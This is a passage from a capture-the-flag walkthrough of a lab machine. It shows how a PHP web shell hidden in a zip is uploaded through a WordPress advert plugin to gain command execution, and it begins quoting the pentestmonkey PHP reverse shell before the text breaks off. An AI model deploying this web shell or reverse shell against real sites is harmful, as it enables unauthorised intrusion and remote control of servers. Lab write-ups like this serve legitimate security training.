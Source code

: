 After logging in we are presented with an admin dashboard as loly has the role of a wordpress administrator 

##### Foothold

From here uploading a theme, plugin or editing a template wasn't available to us from which we can upload a reverse shell but the plugin adroate had an option to upload an advert but php files aren't allowed

But it does say that it extracts the file from zip, so what if we upload a zip file having a php file also the uploaded files will go to /wordpress/wp-content/banners

![](https://i.imgur.com/fIi78Jy.png)

we have our php file 

```bash
<?php system($_GET['cmd']); ?>
```

![](https://i.imgur.com/lMbAxud.png)

Now to upload this zip file 

![](https://i.imgur.com/inCHFya.png)

After uploading it, we'll visit the link http://loly.lc/wordpress/wp-content/banners/file.php?cmd=id

![](https://i.imgur.com/9oS2mYo.png)

We have remote code execution, only thing now left is to get a reverse shell but I had trouble getting the one liners to work to for bash, php and nc for reverse shell so instead I used pentest monkey php reverse shell

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'IP';
$port = 2222;     
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
```
